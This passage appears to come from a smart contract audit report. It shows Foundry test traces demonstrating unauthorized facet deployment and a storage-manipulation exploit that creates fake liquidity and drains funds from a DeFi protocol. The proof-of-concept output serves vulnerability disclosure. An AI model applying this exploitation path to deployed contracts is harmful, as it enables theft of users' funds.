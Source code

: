 ```solidity
    ├─ emit log_named_address(key: " WARNING: Unauthorized Facet Deployed!", val: ValueFacet: [0x5Fe645A4b9AC934a4aAe64Ddec66CDF918684BDa])
    ├─ emit log_named_address(key: " WARNING: Unauthorized Facet Deployed!", val: ValueTokenFacet: [0x1d1499e622D69689cdf9004d05Ec547d650Ff211])
    └─ ← [Return] 

Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 4.76ms (1.52ms CPU time)

Ran 1 test suite in 1.33s (4.76ms CPU time): 1 tests passed, 0 failed, 0 skipped (1 total tests)
```
Shows facet redeployment without any validation
Confirms swap of critical contract components

Exploit 2: Storage Manipulation Leading to Fund Loss
```solidity
Ran 1 test for test/UnauthorizedFacetDeploymentTest.t.sol:UnauthorizedFacetAndStorageManipulationTest
[PASS] testFullBalanceManipulationThenDrain() (gas: 11917886)
Logs:
   WARNING: Fake Liquidity Created!: 999999999999995000
   WARNING: Unauthorized Funds Drained!: 999999999999995000

Traces:
  [11937786] UnauthorizedFacetAndStorageManipulationTest::testFullBalanceManipulationThenDrain()
    ├─ [0] VM::prank(0x0000000000000000000000000000000000000Bad)
    │   └─ ← [Return] 
    ├─ [3546189] → new ValueFacet@0x5Fe645A4b9AC934a4aAe64Ddec66CDF918684BDa
    │   └─ ← [Return] 17711 bytes of code
    ├─ [1765803] → new ValueTokenFacet@0x1d1499e622D69689cdf9004d05Ec547d650Ff211
    │   └─ ← [Return] 8794 bytes of code
    ├─ [2441840] → new SimplexFacet@0xA4AD4f68d0b91CFD19687c881e50f3A00242828c
    │   └─ ← [Return] 12196 bytes of code
    ├─ [2088425] → new SwapFacet@0x03A6a84cD762D9707A21605b548aaaB891562aAb
    │   └─ ← [Return] 10431 bytes of code
    ├─ [1337399] → new VaultFacet@0xD6BbDE9174b1CdAa358d2Cf4D57D1a9F7178FBfF
    │   └─ ← [Return] 6680 bytes of code
    ├─ [499944] → new DecimalAdjustor@0x15cF58144EF33af1e14b5208015d11F9143E27b9
    │   └─ ← [Return] 2497 bytes of code
    ├─ [0] VM::assertEq(0, 0) [staticcall]
    │   └─ ← [Return] 
    ├─ [0] VM::assertNotEq(999999999999995000 [9.999e17], 1000000 [1e6]) [staticcall]
    │   └─ ← [Return] 
    ├─ emit log_named_uint(key: " WARNING: Fake Liquidity Created!", val: 999999999999995000 [9.999e17])
    ├─ emit log_named_uint(key: " WARNING: Unauthorized Funds Drained!", val: 999999999999995000 [9.999e17])
    └─ ← [Return] 

Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 7.20ms (2.14ms CPU time)

Ran 1 test suite in 1.19s (7.20ms CPU time): 1 tests passed, 0 failed, 0 skipped (1 total tests)
```
 Shows direct fund loss through storage manipulation
Highlights full control over balances and liquidity pools
